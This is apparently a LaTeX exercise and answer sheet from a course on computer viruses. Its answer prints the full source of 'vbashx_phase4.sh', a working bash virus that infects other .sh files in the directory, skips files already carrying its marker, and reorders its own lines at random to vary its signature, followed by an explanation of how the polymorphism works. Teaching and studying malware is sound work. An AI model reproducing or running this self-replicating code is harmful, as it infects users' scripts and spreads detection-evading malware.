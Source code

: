 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{enumerate}
\item[\textbf{4d)}] Among the 3 strategies from Phase 2, which ones still work with polymorphism? Justify.
\end{enumerate}

\begin{correction}

\textbf{4a+4b)} The complete virus with line-reordering polymorphism:
\begin{lstlisting}[title=vbashx\_phase4.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Restoration --- VBX_7k9Pz
REST_SIZE=11
LI=16
VIRUS_SIZE=$(($REST_SIZE + $LI))
TMP=".vbx_tmp.sh"
echo "#!/bin/bash" > $TMP
echo "SRC=\"$0\"" >> $TMP
nb=1; while [ $nb -le $LI ]; do
grep "#@${nb}#" "$0" >> $TMP
nb=$(($nb + 1)); done
chmod +x $TMP && ./$TMP; rm -f $TMP; exit 0
MARKER="VBX_7k9Pz" #@1#
for f in *.sh; do #@2#
if [ "$(basename "$f")" != "$(basename "$SRC")" ]; then #@3#
if [ -z "$(grep "$MARKER" "$f")" ]; then #@4#
REST_S=11; LI_S=16; VS=$(($REST_S + $LI_S)) #@5#
tail -n $VS "$SRC" | head -n $REST_S >> "$f" #@6#
r=$(( ($RANDOM % 16) + 1 )) #@7#
n=1 #@8#
while [ $n -le $LI_S ]; do #@9#
grep "#@${r}#" "$SRC" >> "$f" #@10#
r=$(( ($r * 3) % 17 )) #@11#
n=$(($n + 1)) #@12#
done #@13#
fi #@14#
fi #@15#
done #@16#
\end{lstlisting}

\textbf{Code explanation:}
\begin{itemize}
    \item \textbf{Lines 3--13} (restoration code, untagged): extracts the 16 tagged lines in order (1, 2, \ldots, 16), writes them to \texttt{.vbx\_tmp.sh} with the source path, executes this file, then terminates with \texttt{exit 0}.
    \item \textbf{Lines 14--29} (infection code, tagged \texttt{\#@1\#} to \texttt{\#@16\#}): these lines are in arbitrary order in the file but the restoration code puts them back in order before execution. They check for reinfection, copy the restoration code to the target, then append the tagged lines in a random order using the formula $r \leftarrow (r \times 3) \bmod 17$.
\end{itemize}

\textbf{4c)} Comparing two infected files, we see that the tagged lines are in a \textbf{different order} (the random seed \texttt{\$RANDOM} differs with each execution). The restoration code, however, is \textbf{identical} in all infected files.


\end{correction}
\end{exercice}
\end{document}
